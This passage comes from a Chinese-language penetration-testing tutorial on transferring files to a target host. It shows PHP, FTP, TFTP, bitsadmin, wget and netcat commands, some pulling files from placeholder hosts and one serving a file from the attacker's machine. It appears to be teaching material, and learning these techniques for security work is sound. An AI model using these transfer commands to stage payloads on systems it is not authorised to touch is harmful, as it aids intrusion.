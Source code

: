 PHP 作为一种服务端脚本，也可以实现下载文件这种功能。

    #!/usr/bin/php
    <?php
            $data = @file("http://example.com/file");
            $lf = "local_file";
            $fh = fopen($lf, 'w');
            fwrite($fh, $data[0]);
            fclose($fh);
    ?>

执行脚本文件是这样

    root@kali:~# php test.php

下面的上传文件的方法，可能需要更多得步骤，但是有些情况下却可以绕过去多限制。

## 7 FTP File Download

一般情况下攻击者使用 FTP 上传文件需要很多交互的步骤，下面这个 bash 脚本，考虑到了交互的情况，可以直接执行并不会产生交互动作。

    ftp 127.0.0.1
    username
    password
    get file
    exit

## 8 TFTP File Download

在 Windows Vista 以及以后的版本中默认有 FTP，可以使用以下命令运行：

    tftp -i host GET C:\%homepath%\file location_of_file_on_tftp_server

## 9 Bitsadmin File Download

Bitsadmin 是 Windows 命令行工具，用户可以使用它来创建下载或上传的任务。

    bitsadmin /transfer n http://domain/file c:\%homepath%\file

## 10 Wget File Download

Wget 是 Linux 和 Windows 下的一个工具，允许非交互下载。

    wget http://example.com/file

## 11 Netcat File Download

Netcat 在 linux 上的实例：

攻击者的电脑上输入：

    cat file | nc -l 1234

这个命令会将 file 的内容输出到本地的 1234 端口中，然后不论谁连接此端口，file 的内容将会发送到连接过来的 IP。
